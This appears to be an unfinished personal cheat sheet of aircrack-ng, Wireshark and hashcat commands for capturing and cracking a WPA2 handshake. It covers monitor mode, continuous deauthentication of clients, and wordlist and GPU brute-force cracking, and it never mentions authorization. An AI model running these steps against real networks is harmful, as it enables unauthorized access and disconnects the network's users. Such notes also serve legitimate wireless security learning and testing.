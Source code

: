 ```yaml
---
title: Commands WPA2 handshake
---
```


**Kills processes:**
`sudo airmon-ng check kill`

> If you want to restart the processes run the following command:
> `sudo service NetworkManager restart`

**Starts monitor mode**
`sudo airmon-ng start wlan0`

**Verify that monitor mode is used**
`sudo airmon-ng`

**Get the AP's MAC address and channel**
`sudo airodump-ng wlan0`

1.  **window 1**
    
    1.  *Fill in the channel(after -c) and bssid(after --bssid)*
    2.  `sudo airodump-ng -w hack1 -c --bssid wlan0`
    
    > Note: "hack1 is the filename where we are going to store the captures in, you can choose the name of this file as it doesn't matter, you need to make sure that you remember it tho"
    
2.  **window 2**
    
    1.  *Fill in the bssid after '-a'*
    2.  `sudo aireplay-ng --deauth 0 -a wlan0`

**Use Wireshark to open hack file**
`wireshark hack1-01.cap`

> Note: This is the filename which we've chosen in 'window 1', as there are many captures going on (unless you live under a rock or something ;P), you will get multiple files and that's why there is a '-01' added. You could even have to look in 'hack1-03.cap' to be able to find the 4-way handshake.

**Filter Wireshark messages for EAPOL**

**Stop monitor mode**
`airmon-ng stop wlan0`

**Crack file with Rock you or another wordlist**
**Make sure you have rockyou in text format (unzip file on Kali)**
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`

> Note: You can find it on any Kali distribution included at the location above, mine didn't have it tho, so I had to download it :'(
> If your were out of luck like me and don't have the wordlist, [you could download it over here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
> **I had to use the followinf command as it was not included in my Kali distro (I downloaded my wordlist)**
> `aircrack-ng hack1-01.cap -w /root/Downloads/rockyou.txt`

**We can also try this without a wordlist, you can also use a brute force attack**

1.  Navigate to the folder where the .cap file is stored
2.  Convert the cap file to a file that is readable for 'hashcat'
3.  `/usr/share/hashcat-utils/cap2hccapx.bin hack1-01.cap wpa2.hccapx`
    ![image](https://user-images.githubusercontent.com/79259209/223355036-58df21db-cdaa-445c-9413-22a469b5bce0.png)
4.  Next I'll move my file to my Windows machine, so that I'll be able to use my GPU to brute force faster
5.  Then using cmd I'll navigate to my hashcat folder where i copied the file to

![image](https://user-images.githubusercontent.com/79259209/223355110-426af1dc-48d2-4750-bdac-d8fe89f7a1c5.png)

6\. Next, I want to check whether my GPU is available

![image](https://user-images.githubusercontent.com/79259209/223355264-b897e5a7-4927-4e24-b648-97f631d33a49.png)
# 2B updated ✌️
7.
